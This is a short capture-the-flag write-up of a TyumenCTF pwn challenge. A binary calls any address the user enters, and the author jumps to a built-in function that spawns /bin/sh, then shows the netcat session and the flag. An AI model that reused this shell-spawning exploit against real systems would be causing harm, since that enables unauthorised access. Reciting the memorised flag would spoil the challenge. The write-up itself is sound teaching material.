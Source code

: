 ## Return my

> Return my... To return here: XXX.XXXXXXXXX.XX NNNN<br><br>
> Attachments: `pwn`

A binary was attached:

```no-highlight
pwn: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.32, BuildID[sha1]=348934655967dca186bcc8dc8ab74731eb7c4e3e, not stripped
```

Statically linked executables are not the most comfortable to work with, but taking a shot at disassembling them with Ghidra usually never hurts... _Apart from your eyes in case you have an HiDPI display. Text becomes **so damn small** in Java applications._

A quick glance at the `main` function made it obvious, even without retyping and renaming the code, that the program accepted an input, converted it to a memory address and executed the function sitting at that location.

```c
undefined8 main(void) {
  code *local_18;
  code *local_10;

  setvbuf((FILE *)stdout, (char *)0x0, 2, 0);
  printf("Return my: ");
  __isoc99_scanf(&DAT_00489a10, &local_18);
  local_10 = local_18;
  (*local_18)();
  return 1;
}
```

How to find the exact address to jump to, though? An accurate analysis in the huge amount of recognizable functions was performed, and finally one named `TheNextEpisode` popped up: it spawned a shell!

```c
void TheNextEpisode(void) {
  execve("/bin/sh", (char **)0x0, (char **)0x0);
  return;
}
```

Its address was 0x400ad2<sub>hex</sub>, and it took us an embarassingly long time to figure out that it needed to be converted to 4197074<sub>dec</sub> to be correctly accepted.

```no-highlight
$ nc pwn.tyumenctf.ru 1493
Return my: 4197074
cat flag4
TyumenCTF{dr_dre_of_course}
```
{: .spoiler}

---
